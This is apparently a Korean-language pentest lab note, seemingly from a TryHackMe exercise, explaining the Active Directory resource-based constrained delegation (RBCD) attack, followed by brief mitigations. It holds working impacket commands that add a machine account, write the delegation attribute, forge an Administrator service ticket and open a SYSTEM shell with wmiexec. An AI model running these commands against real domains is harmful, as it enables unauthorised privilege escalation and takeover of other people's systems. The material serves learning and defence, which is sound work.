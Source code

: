 


# 리소스 기반 제한된 위임 (RBCD) 공격 가이드

RBCD(Resource-Based Constrained Delegation)는 기존의 제한된 위임(KCD)과 달리, 위임의 신뢰 관계를 리소스(예: 웹 서버) 측에서 설정하는 최신 위임 방식입니다. 이 공격은 공격자가 특정 컴퓨터 계정의 AD 개체 속성을 수정할 권한을 가질 때 발생하며, 이를 통해 해당 컴퓨터의 관리자 권한을 탈취할 수 있습니다.

### **공격 원리**

1.  공격자는 특정 컴퓨터(서버 B)의 AD 개체에 대한 쓰기 권한을 가집니다. (예: `GenericWrite`, `WriteDacl` 등)
2.  공격자는 자신이 제어하는 컴퓨터 계정(컴퓨터 A)을 생성하거나 이미 제어 중인 계정을 사용합니다.
3.  공격자는 서버 B의 `msDS-AllowedToActOnBehalfOfOtherIdentity` 속성을 수정하여, 컴퓨터 A가 서버 B에 대해 위임 권한을 갖도록 설정합니다.
4.  이제 컴퓨터 A는 KDC에 S4U2proxy 요청을 보내, 특정 사용자(예: `Administrator`)를 사칭하여 서버 B의 특정 서비스(예: `cifs`)에 접근할 수 있는 서비스 티켓을 발급받을 수 있습니다.
5.  공격자는 이 티켓을 사용하여 서버 B에 `Administrator` 권한으로 접속합니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어하는 계정이 쓰기 권한을 가진 다른 컴퓨터 계정을 찾습니다.
- **핵심 도구:** BloodHound
- **분석:** BloodHound에서 `Find paths to computers with GenericWrite`와 같은 쿼리를 실행하여, 현재 사용자가 제어할 수 있는 컴퓨터 객체를 시각적으로 쉽게 찾을 수 있습니다.

![[Pasted image 20250812235330.png]]

---

### **2. 단계별 공격 절차 (`impacket` 활용)**

#### **1단계: 공격자 제어 컴퓨터 계정 확보**
- 도메인 사용자는 기본적으로 10개의 컴퓨터 계정을 도메인에 추가할 수 있습니다. 이 권한을 사용하여 공격자가 제어할 컴퓨터 계정을 생성합니다.

```bash title="impacket-addcomputer: 새 컴퓨터 계정 추가"
impacket-addcomputer <domain.local>/<compromised_user>:<password> -computer-name <ATTACKER-PC>$

impacket-addcomputer -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Password1!' -dc-host $target -domain-netbios thm.local 'THM.LOCAL/SUSANNA_MCKNIGHT:REDACTED'
```

#### **2단계: RBCD 관계 설정**
- `impacket-rbcd`를 사용하여, 1단계에서 생성한 `ATTACKER-PC가 공격 대상 서버(`VICTIM-PC)에 대해 위임하도록 설정합니다.

```bash title="impacket-rbcd: 위임 관계 설정"
# GUEST 계정이라 패스워드는 필요없음. 빈 해쉬로 진행
# :31d6cfe0d16ae931b73c59d7e0c089c0 이건 빈 해쉬라는 뜻

impacket-rbcd THM.LOCAL/guest -hashes :31d6cfe0d16ae931b73c59d7e0c089c0  -dc-ip $target -delegate-to LABYRINTH$ -delegate-from ATTACKERSYSTEM$ -action write 
```

#### **3단계: 서비스 티켓 요청 (S4U2proxy)**
- `impacket-getST`를 사용하여, `ATTACKER-PC`의 권한으로, `Administrator`를 사칭하여 `VICTIM-PC`의 `cifs` 서비스에 접근하는 티켓을 요청합니다.
- [[GetST]]

```bash title="impacket-getST: 서비스 티켓 요청"
# -spn: 요청할 서비스의 SPN
# -impersonate: 사칭할 사용자
impacket-getST -impersonate Administrator THM.LOCAL/ATTACKERSYSTEM\$:'Password1!' -spn cifs/LABYRINTH.THM.LOCAL -dc-ip $target
```
- 이 명령이 성공하면, 현재 디렉터리에 `Administrator.ccache` 파일이 생성됩니다.

#### **4. Pass-the-Ticket 및 원격 접속**
- 생성된 티켓을 환경 변수에 등록하고, `-k` 옵션을 사용하는 `impacket` 도구로 원격 접속을 시도합니다.

```bash title="티켓 주입 및 wmiexec 접속"
# .ccache 파일을 Kerberos 인증에 사용하도록 설정
export KRB5CCNAME=Administrator.ccache

# -k: Kerberos 인증 사용
# -no-pass: 비밀번호 없이, 캐시된 티켓으로 인증
impacket-wmiexec -k -no-pass <domain.local>/Administrator@VICTIM-PC.domain.local
```
- 성공 시 `VICTIM-PC`의 `SYSTEM` 셸을 획득하게 됩니다.

---

### **3. 방어 (Mitigation)**

- **ACL 감사:** 컴퓨터 객체에 대한 `GenericWrite`, `WriteDacl` 등 위험한 쓰기 권한이 일반 사용자에게 부여되지 않도록 정기적으로 AD의 ACL을 감사합니다.
- **중요 계정 보호:** 도메인 관리자 등 중요 계정의 속성에서 "계정은 민감하므로 위임할 수 없음(Account is sensitive and cannot be delegated)" 옵션을 활성화하여 위임 공격의 대상으로 사용되는 것을 방지합니다.
